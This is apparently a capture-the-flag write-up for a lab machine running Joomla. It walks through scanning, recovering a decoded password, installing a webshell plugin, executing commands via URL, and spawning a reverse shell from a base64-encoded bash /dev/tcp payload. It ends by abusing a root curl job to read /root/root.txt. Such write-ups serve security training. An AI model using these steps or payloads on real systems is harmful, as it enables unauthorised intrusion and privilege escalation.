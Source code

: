 Started with a nmap scan
```
22 OpenSSH 7.6p1
80 Apache httpd 2.4.29
```
Going to the website it says its a cewl curling site which makes me think we need to use the program cewl to make a word list and there is a login forum going to start  a gobuster scan and see what else is on the host 
```
/images
/media
/templates
/modules
/index.php
/bin
/plugins
/includes
/README.txt
/components
/cache
/tmp
/LICENSE.txt
/secret.txt
/htaccess.txt
/administrator
/cli
```
Looking at he `htaccess.txt` its a joomla site running joomscan it shows its version `3.8.8` looking at the `secret.txt` it decodes to `Curling2018!` and using the name found on the main site `floris` we can now login into the superuser account using this plugin for joomla that allows us to exacute code https://github.com/p0dalirius/Joomla-webshell-plugin and then going to this link http://10.10.10.150/modules/mod_webshell/mod_webshell.php?action=exec&cmd=id we can now exacute code as `www-data` now to get a reverse shell I made a `rev.sh` file with this payload `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4.........Q== | base64 -d | bash` and now got a reverse shell looking at he webapp source code found the creds for mysql database `floris:.......................` looking in the home folder of `floris` we can read a file called `password_backup` and its a hexdump we can take this to cyberchef and we get the password for the user account `...............` ran linpeas did not see much so I ran pspy64 and found that root is curling this file `/home/floris/admin-area/input` and we can edit the file so if we add this to the file `file:///root/root.txt` and we will get the root flag or any file you want as root